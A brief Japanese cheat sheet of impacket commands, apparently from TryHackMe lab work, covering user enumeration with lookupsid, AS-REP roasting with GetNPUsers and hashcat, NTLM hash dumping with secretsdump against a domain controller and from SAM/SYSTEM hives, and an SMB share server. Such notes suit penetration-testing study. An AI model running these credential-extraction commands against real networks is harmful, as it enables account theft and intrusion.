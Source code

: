 # impacket

全然まとまっていないので、今後整理する

ユーザー名列挙

```sh
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@$TARGET
```

```sh
# ASREPRoasting攻撃 によるチケット取得。その後ハッシュをクラック。
# hashcat -m 18200 ./hash.txt ./passwords.txt
python3 /home/kali/tools/impacket/examples/GetNPUsers.py 'THM-AD/' -usersfile names.txt -no-pass -dc-ip 10.10.249.47
```

```sh
# NTLM ハッシュ抽出
python3 /home/kali/tools/impacket/examples/secretsdump.py -just-dc-ntlm THM-AD/backup@10.10.249.47
```

ファイル共有設定（kali）

```shell
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support public share
```

パスワードハッシュ抽出

```sh
python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
